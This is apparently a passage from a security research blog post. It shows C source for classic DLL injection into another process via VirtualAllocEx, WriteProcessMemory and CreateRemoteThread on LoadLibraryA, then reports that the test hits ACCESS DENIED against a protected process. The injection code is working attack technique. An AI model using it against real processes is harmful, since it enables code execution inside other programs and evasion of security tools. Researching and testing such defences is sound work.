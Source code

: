 ```
	HANDLE h = OpenProcess(PROCESS_ALL_ACCESS, false, pId);
	if (h) {
		printf("[+] Process %d Opened handle no. %08x\n", pId, (unsigned int)h);
		LPVOID LoadLibAddr = (LPVOID)GetProcAddress(GetModuleHandleA("kernel32.dll"), "LoadLibraryA");
		printf("[+] LoadLibraryA address: %p\n", LoadLibAddr);
		getchar();
		LPVOID dereercomp = VirtualAllocEx(h, NULL, strlen(dllName)+1, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
		if (dereercomp == NULL)
		{
			fprintf(stderr, "[-] Impossible allocate new memory in the target process %d\n", GetLastError());
			return 1;
		}
		printf("[+] Alloced space on: %p\n", dereercomp);
		if (!WriteProcessMemory(h, dereercomp, dllName, strlen(dllName), NULL)) {
			fprintf(stderr, "[-] Impossible writing in process memory %d\n", GetLastError());
			return 1;
		}
		else {
			printf("[+] Process memory correctly written\n");
		}
		HANDLE asdc = CreateRemoteThread(h, NULL, NULL, (LPTHREAD_START_ROUTINE)LoadLibAddr, dereercomp, 0, NULL);
		printf("[+] Remote Thread Output: %d %d\n", asdc, GetLastError());
		WaitForSingleObject(asdc, INFINITE);
		VirtualFreeEx(h, dereercomp, strlen(dllName), MEM_RELEASE);
		CloseHandle(asdc);
		CloseHandle(h);
		return 0;
	}
```
<br>

Running the test case against the process pid from an elevated powershell results in *ACCESS DENIED* too on *VirtualAllocEx()* routine.
<br>
<p align="center">
  <img src="/assets/images/post_2022_07_30/img5.PNG">
</p>
<br>
<br>
